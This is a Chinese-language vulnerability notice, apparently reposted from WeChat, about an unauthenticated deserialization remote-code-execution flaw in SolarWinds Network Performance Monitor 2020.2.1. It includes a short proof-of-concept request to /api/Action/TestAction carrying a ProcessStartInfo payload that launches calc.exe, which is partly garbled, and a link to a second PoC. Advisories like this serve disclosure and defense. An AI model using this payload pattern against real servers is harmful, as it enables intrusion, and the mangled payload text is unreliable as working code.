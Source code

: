 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/KbmOQJJ-q0Lbiobgv9qI7g)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV01JVJusudJOQA9ic4SKUs1FkdgqiaavYuWhoeBZ8so6R4PaXmniajibdor2muACUicFVQXUcjJlGhdImw/640?wx_fmt=png)

SolarWinds Network Performance Monitor（NPM）是集网络监测、设备性能维护管理、故障监控、网络实时流量监控和历史数据统计、汇总和历史数据分析等功能于一体的网络管理系统。

该漏洞存在于 SolarWinds.Serialization 库中，由于对用户提供的数据缺乏正确验证，导致不信任数据的反序列化。成功利用此漏洞的攻击者可以在系统上下文中执行任意代码，而无需经过身份验证。

**影响范围**

SolarWinds Network Performance Monitor 2020.2.1

Poc：

POST  /api/Action/TestAction 

```
<sd:ProcessStartInfo Arguments="/c calc.exe" StandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null }" User{x:Null}" Domain="" LoadUserProfile="False" File /> 2x Base6
```

Poc2：  

https://gist.github.com/testanull/dcb536b409a28d74430a441d53b14456

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV01JVJusudJOQA9ic4SKUs1FjHicywEHbRY2rzoN4G1gGUvfHd9Ivicf9S945TxEZlYPJE75xok8nGaQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV01JVJusudJOQA9ic4SKUs1FW86vlydaP6g1WkiatVibYQkH01eT7ypSia1KIEt7CyHd73iaMPaFYmKeAw/640?wx_fmt=png)